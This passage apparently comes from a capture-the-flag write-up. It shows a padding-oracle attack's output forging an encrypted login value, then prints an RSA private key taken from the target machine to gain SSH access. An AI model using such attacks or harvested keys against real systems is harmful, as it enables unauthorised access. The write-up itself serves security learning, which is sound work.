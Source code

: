     Enter an ID that matches the error condition
    NOTE: The ID# marked with ** is recommended : 2
    
    Continuing test with selection 2
    
    [+] Success: (196/256) [Byte 8]
    [+] Success: (148/256) [Byte 7]
    [+] Success: (92/256) [Byte 6]
    [+] Success: (41/256) [Byte 5]
    [+] Success: (218/256) [Byte 4]
    [+] Success: (136/256) [Byte 3]
    [+] Success: (150/256) [Byte 2]
    [+] Success: (190/256) [Byte 1]
    
    Block 2 Results:
    [+] New Cipher Text (HEX): 23037825d5a1683b
    [+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d
    
    [+] Success: (1/256) [Byte 8]
    [+] Success: (36/256) [Byte 7]
    [+] Success: (180/256) [Byte 6]
    [+] Success: (17/256) [Byte 5]
    [+] Success: (146/256) [Byte 4]
    [+] Success: (50/256) [Byte 3]
    [+] Success: (132/256) [Byte 2]
    [+] Success: (135/256) [Byte 1]
    
    Block 1 Results:
    [+] New Cipher Text (HEX): 0408ad19d62eba93
    [+] Intermediate Bytes (HEX): 717bc86beb4fdefe
    
    -------------------------------------------------------
    ** Finished ***
    
    [+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
    -------------------------------------------------------

Lets login with the key which we got,


![](https://paper-attachments.dropbox.com/s_0D7F007F40F0D6C127E0E610A9E236E2412E24E3D9F3E16A5F441EA21AE79E33_1595497270230_Screenshot+2020-07-23+at+3.11.00+PM.png)



## Ssh to User:

While accessing **‘My Key’ ,** we found private key


    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAqIkk7+JFhRPDbqA0D1ZB4HxS7Nn6GuEruDvTMS1EBZrUMa9r
    upUZr2C4LVqd6+gm4WBDJj/CzAi+g9KxVGNAoT+Exqj0Z2a8Xpz7z42PmvK0Bgkk
    3mwB6xmZBr968w9pznUio1GEf9i134x9g190yNa8XXdQ195cX6ysv1tPt/DXaYVq
    OOheHpZZNZLTwh+aotEX34DnZLv97sdXZQ7km9qXMf7bqAuMop/ozavqz6ylzUHV
    YKFPW3R7UwbEbkH+3GPf9IGOZSx710jTd1JV71t4avC5NNqHxUhZilni39jm/EXi
    o1AC4ZKC1FqA/4YjQs4HtKv1AxwAFu7IYUeQ6QIDAQABAoIBAA79a7ieUnqcoGRF
    gXvfuypBRIrmdFVRs7bGM2mLUiKBe+ATbyyAOHGd06PNDIC//D1Nd4t+XlARcwh8
    g+MylLwCz0dwHZTY0WZE5iy2tZAdiB+FTq8twhnsA+1SuJfHxixjxLnr9TH9z2db
    sootwlBesRBLHXilwWeNDyxR7cw5TauRBeXIzwG+pW8nBQt62/4ph/jNYabWZtji
    jzSgHJIpmTO6OVERffcwK5TW/J5bHAys97OJVEQ7wc3rOVJS4I/PDFcteQKf9Mcb
    +JHc6E2V2NHk00DPZmPEeqH9ylXsWRsirmpbMIZ/HTbnxJXKZJ8408p6Z+n/d8t5
    gyoaRgECgYEA0oiSiVPb++auc5du9714TxLA5gpmaE9aaLNwEh4iLOS+Rtzp9jSp
    b1auElzXPwACjKYpw709cNGV7bV8PPfBmtyNfHLeMTVf/E/jbRUO/000ZNznPnE7
    SztdWk4UWPQx0lcSiShYymc1C/hvcgluKhdAi5m53MiPaNlmtORZ1sECgYEAzO61
    apZQ0U629sx0OKn3YacY7bNQlXjl1bw5Lr0jkCIAGiquhUz2jpN7T+seTVPqHQbm
    sClLuQ0vJEUAIcSUYOUbuqykdCbXSM3DqayNSiOSyk94Dzlh37Ah9xcCowKuBLnD
    gl3dfVsRMNo0xppv4TUmq9//pe952MTf1z+7LCkCgYB2skMTo7DyC3OtfeI1UKBE
    zIju6UwlYR/Syd/UhyKzdt+EKkbJ5ZTlTdRkS+2a+lF1pLUFQ2shcTh7RYffA7wm
    qFQopsZ4reQI562MMYQ8EfYJK7ZAMSzB1J1kLYMxR7PTJ/4uUA4HRzrUHeQPQhvX